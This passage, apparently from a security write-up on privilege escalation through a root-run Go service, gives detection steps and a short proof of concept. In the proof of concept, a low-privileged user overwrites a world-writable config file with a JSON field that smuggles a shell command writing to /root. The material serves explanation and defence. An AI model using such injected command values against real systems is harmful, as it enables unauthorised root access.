 ```go
}
```

### Detection Steps
1.  **Permission Audits**: Manually or automatically scan for insecure file permissions (e.g., world-writable, owned by a non-privileged user but writable by others) on:
    * The Go service executable itself.
    * Configuration files, log files, or temporary directories used by the service.
    * Directories in the service's `PATH` that are writable by low-privileged users.
2.  **Code Review**:
    * Examine Go code for `os/exec` calls, looking for unvalidated user input being used to construct commands.
    * Review IPC mechanisms (e.g., `net`, `os/signal`, `encoding/json` for deserialization) for proper authentication, authorization, and input validation.
    * Look for potential race conditions when handling files or external resources.
    * Identify hardcoded credentials or API keys.
3.  **Process Monitoring**: Monitor processes for unusual child processes being spawned by the privileged Go service, or unusual network connections.
4.  **Static Analysis Security Testing (SAST)**: Use SAST tools that understand Go to identify potential vulnerabilities related to input validation, command injection, and insecure configuration.
5.  **Dynamic Analysis (Fuzzing/Penetration Testing)**: Actively try to exploit the service by sending malformed or malicious inputs through its exposed interfaces (local sockets, APIs, command-line arguments) from a low-privileged user account.

### Proof of Concept (PoC)
(Assuming the Go service from the "Vulnerable Code Snippet" is running as root)

1.  **Compile the vulnerable Go service:**
    ```bash
    go build -o mygoservice main.go
    ```
2.  **Run the service (as root/sudo):**
    ```bash
    sudo ./mygoservice
    ```
    (Output will show the config file `/etc/mygoservice/config.json` created with 0666 permissions.)

3.  **As a low-privileged user (in a separate terminal):**
    * Verify file permissions:
        ```bash
        ls -l /etc/mygoservice/config.json
        # Expected output: -rw-rw-rw- 1 root root ... /etc/mygoservice/config.json
        ```
    * Modify the configuration file to enable debug mode and inject a command:
        ```bash
        echo '{"enable_debug": true, "command_arg": "malicious_payload; /bin/sh -c \"echo ROOTED > /root/pwned.txt\""}' > /etc/mygoservice/config.json
        ```
        (In a real-world scenario, the service would need to re-read its config, e.g., on a signal or periodic refresh. For this simple PoC, the service would need to be restarted or triggered to reload.)
